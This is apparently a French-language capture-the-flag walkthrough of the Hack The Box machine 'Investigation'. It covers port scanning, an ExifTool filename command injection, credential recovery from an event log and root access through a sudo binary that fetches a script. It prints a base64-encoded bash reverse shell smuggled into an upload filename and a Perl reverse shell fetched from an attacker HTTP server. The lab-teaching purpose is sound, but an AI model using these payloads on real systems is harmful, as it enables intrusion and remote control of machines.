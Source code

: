 # Investigation - Medium

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-26 19:47 EST
Nmap scan report for 10.10.11.197
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est redirigé vers eforenzics.htb. On l’ajoute donc dans notre /etc/hosts

On lance un gobuster en tâche de fond. Rien de particulier dans le code source du site, il y a cependant une page pour upload des images jpg. On va intercepter la requête d’upload avec burp pour l’analyser, elle envoie une requête à la page upload.php. C’est juste l’image en raw.

Résultats gobuster:

```bash
/assets               (Status: 301) [Size: 317] [--> http://eforenzics.htb/assets/]
/server-status        (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10957]
/.htaccess            (Status: 403) [Size: 279]  
/.                    (Status: 200) [Size: 10957]
/upload.php           (Status: 200) [Size: 3773] 
/.html                (Status: 403) [Size: 279]  
/.php                 (Status: 403) [Size: 279]  
/.htpasswd            (Status: 403) [Size: 279]  
/service.html         (Status: 200) [Size: 4335] 
/.htm                 (Status: 403) [Size: 279]  
/.htpasswds           (Status: 403) [Size: 279]  
/.htgroup             (Status: 403) [Size: 279]  
/wp-forum.phps        (Status: 403) [Size: 279]  
/.htaccess.bak        (Status: 403) [Size: 279]  
/.htuser              (Status: 403) [Size: 279]  
/.ht                  (Status: 403) [Size: 279]  
/.htc                 (Status: 403) [Size: 279]  
/.htaccess.old        (Status: 403) [Size: 279]  
/.htacess             (Status: 403) [Size: 279]
```

Une fois upload le site analyse l’image avec ExifTool Version Number : 12.37. On recherche donc une vulnérabilité:

[https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)

On va envoyer un image et l’intercepter pour changer le nom pour faire une reverse shell. Les “/” et toute autre caractère système est coupé donc on passe en base 64 puis en décode pour executer.

Voici le payload:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzkwOTAgMD4mMQ==' | base64 -d | bash |
```

On est connecté en tant que www-data, apparemment les commandes utilisent perl, rien de particulier dans les fichiers du serveur. On va lance linpeas pour essayer de trouver des choses intéressantes:

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
  Group www-data:
/usr/local/investigation/analysed_log
```

On trouve alors un fichier .msg qui est un mail, on utilise ceci pour l’ouvrir et on le télécharge sur notre machine: [https://products.aspose.app/email/viewer/msg](https://products.aspose.app/email/viewer/msg)

On peut obtenir la pièce jointe: [https://www.encryptomatic.com/viewer/](https://www.encryptomatic.com/viewer/)

On obtient un fichier .evtx

On se sert de ce script: https://github.com/williballenthin/python-evtx

Et on obtient un très grand fichier, quand on le cherche par hasard on tombe sur le mot de passe de smorton dans le champ TargetUserName: 

```bash
<Data Name="TargetUserName">Def@ultf0r3nz!csPa$$</Data>
```

On obtient donc le flag user.

Réflexe:

```bash
sudo -l

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

On extrait donc le binaire avec un serveur python et on l’analyse avec ghidra.

On peut lire que s’il n’y a pas 3 arguments et que le script est pas lancé par root le script s’arrête. Il faut aussi que un strcmp retourne 0 et donc qu’on renseigne la bonne chaîne de caractère, un peu comme un mot de passe : lDnxUysaQn. Le code fait ensuite un curl avec l’argument du’on lui donne en 2éme position. On va donc essayer de télécharger un reverse shell en perl (c’est ce qui est utilisé pour lancer le script obtenu)

```bash
sudo /usr/bin/binary test lDnxUysaQn
Running... 
Exiting...
```

```perl
use Socket;
$i = "10.0.0.1";
$p = 4242;
socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if (connect(S, sockaddr_in($p, inet_aton($i)))) {
    open(STDIN, ">&S");
    open(STDOUT, ">&S");
    open(STDERR, ">&S");
    exec("/bin/sh -i");
};

```

```bash
sudo /usr/bin/binary http://10.10.16.6:8000/shell.pl lDnxUysaQn
```

On obtient un shell root !